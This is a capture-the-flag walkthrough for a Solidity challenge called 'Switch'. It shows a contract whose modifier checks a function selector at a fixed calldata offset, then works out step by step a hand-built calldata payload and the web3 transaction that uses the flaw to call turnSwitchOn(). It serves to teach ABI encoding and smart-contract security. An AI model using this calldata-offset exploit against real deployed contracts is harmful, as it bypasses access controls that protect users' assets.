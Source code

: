 # Switch

## Challenge Description

Just have to flip the switch. Can't be that hard, right?

##### Things that might help:

Understanding how `CALLDATA` is encoded.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        bytes32[1] memory selector;
        assembly {
            calldatacopy(selector, 68, 4)
        }
        require(
            selector[0] == offSelector,
            "Can only call the turnOffSwitch function"
        );
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success, ) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to set the `switchOn` variable to `true`. The `turnSwitchOn()` function can achieve this, but there is a modifier that restricts direct calls to this function. The `onlyThis()` modifier allows only the contract itself to execute the function. To work around this limitation, we can use the `flipSwitch()` function, which takes a `_data` parameter and calls the contract with that data. The challenge is to construct the `_data` such that it calls the `turnSwitchOn()` function.

Initially, we attempt to call the `turnSwitchOn()` function from `flipSwitch()` by encoding the function signature using:

```javascript
> const turnSwitchOnSelector = await web3.eth.abi.encodeFunctionSignature("turnSwitchOn()");
> await contract.flipSwitch(turnSwitchOnSelector)
```

However, this transaction reverts with the error message "execution reverted: Can only call the turnOffSwitch function." This error is triggered by the `onlyOff()` modifier. Looking at the `onlyOff()` modifier, we can see that it copies the `calldata` and checks bytes 68 to 72 for the function selector, expecting it to match the selector of the `turnSwitchOff()` function.

Examining the `calldata` from the `contract.flipSwitch(turnSwitchOnSelector)` transaction, we find:

```
0x30c13ade000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000476227e12000000000000000000000000000000000000000000000000000000
```

Analyzing the `calldata` structure, we observe:

-   The first 4 bytes (8 characters) represent the function selector of `flipSwitch()`:

    ```
    0x30c13ade
    ```

-   The next 32 bytes (64 characters) indicate the offset of the `_data` input, showing where the data begins in the `calldata`:

    ```
    0x00000000000000000000000000000000000000000000000000000000000020
    ```

-   Following that, the next 32 bytes (64 characters) represent the length of the `_data`:

    ```
    0x00000000000000000000000000000000000000000000000000000000000004
    ```

​ In this case, the data length is 4 bytes, which corresponds to another function selector.

-   Finally, the last 32 bytes (64 characters) contain the value of the `_data`:

    ```
    0x76227e1200000000000000000000000000000000000000000000000000000
    ```

    Here, the value corresponds to the function selector of the `turnSwitchOn()` function.

We notice that bytes 68 to 72 in the `calldata` represent the function selector of `turnSwitchOn()`, while the modifier expects the function selector of `turnSwitchOff()` to pass. Our task is to manually edit this `calldata` to change the function selector to `turnSwitchOff()`, while still ensuring that the function actually calls `turnSwitchOn()`.

To accomplish this, we obtain the function selectors of all the functions:

```javascript
> await web3.eth.abi.encodeFunctionSignature("flipSwitch(bytes)")
< '0x30c13ade'
> await web3.eth.abi.encodeFunctionSignature("turnSwitchOn()")
< '0x76227e12'
> await web3.eth.abi.encodeFunctionSignature("turnSwitchOff()")
< '0x20606e15'
```

With this information, we construct the `calldata` manually:

-   The first 4 bytes (8 characters) represent the function selector of `flipSwitch()`:

    ```solidity
    0x30c13ade
    ```

-   The next 32 bytes (64 characters) denote the offset, which indicates that the data starts at byte 96. Normally, the offset would be `0x20`, indicating that the data starts 32 bytes later (4 bytes for `flipSwitch()` function selector and 32 bytes for the offset). However, we modify this to `0x60` (96 in decimal) to start the data at byte 96. Thus, the next 32 bytes are:

    ```solidity
    0x0000000000000000000000000000000000000000000000000000000000000060
    ```

-   Since the data starts at byte 96, bytes 36 to 95 can contain any value. However, to pass the modifier, bytes 68 to 72 should be set to the function selector of `turnSwitchOff()`. Hence, the next 64 bytes (128 characters) are:

    ```solidity
    0x000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000
    ```

-   The data starts here. For the next 32 bytes, we specify the length of the data, which is 4 bytes since it corresponds to the function selector of `turnOnSwitch()`. Thus, we set the following 32 bytes (64 characters) as:

    ```solidity
    0000000000000000000000000000000000000000000000000000000000000004
    ```

-   Lastly, for the final 32 bytes (64 characters), we assign the function selector of `turnSwitchOn()`:

    ```solidity
    0x76227e1200000000000000000000000000000000000000000000000000000000
    ```

The final `calldata` is:

```solidity
0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000
```

Let's analyze the `calldata` structure to ensure a complete understanding. Here's a breakdown:

1. The first 4 bytes represent the function selector of the `flipSwitch()` function.
2. The next 32 bytes indicate the offset, which sets the starting position of the data.
3. From byte number 96, there are 32 bytes that represent the length of the data, which is 4 bytes.
4. The first 4 bytes within the next 32 bytes contain the function selector of the `turnSwitchOn()` function. As a result, this `calldata` will call the `turnSwitchOn()` function.
5. Bytes 68 to 72 contain the function selector of `turnSwitchOff()`, allowing the modifier to be satisfied.

Now, we can send the transaction to the contract using this modified `calldata`. Here's an example:

```javascript
> const data = "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"
> await web3.eth.sendTransaction({ from: player, to: contract.address, data: data })
```

By executing the following code, we can verify that the `switchOn` Boolean has been set to `true`.

```javascript
> await contract.switchOn() == true
< true
```

## Challenge Description After Solving

Assuming positions in `CALLDATA` with dynamic types can be erroneous, especially when using hard-coded `CALLDATA` positions.
